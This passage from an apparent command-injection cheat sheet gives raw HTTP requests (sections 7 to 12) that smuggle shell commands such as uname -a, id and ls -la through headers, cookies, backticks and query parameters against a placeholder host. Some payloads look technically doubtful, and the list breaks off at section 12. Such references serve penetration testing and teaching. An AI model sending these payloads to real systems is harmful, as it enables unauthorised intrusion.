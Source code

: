 
### **7. Injection via Headers**
- Inject into `User-Agent`, `Referer`, or custom headers.

```http
GET / HTTP/1.1
Host: vulnerable.com
User-Agent: Mozilla/5.0; uname -a
```

---

### **8. Injection via Cookies**
- Target server-side parsing of cookie values.

```http
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=abc123;id
```

---

### **9. Injection via Backticks or Subshell**
- Use backticks or `$()` for command substitution.

```http
GET /vuln.php?cmd=`id` HTTP/1.1
Host: vulnerable.com
```

---

### **10. Windows-Specific Injection**
- Use `&&`, `|`, or `&` with `cmd.exe`.

```http
GET /vuln.php?input=foo&cmd=dir& HTTP/1.1
Host: vulnerable.com
```

---

### **11. Linux-Specific Injection**
- Use `;`, `|`, or `&&` with common Linux commands.

```http
GET /vuln.php?input=bar; ls -la / HTTP/1.1
Host: vulnerable.com
```

---

### **12. Injection via Pipes**
- Chain commands using `|`.
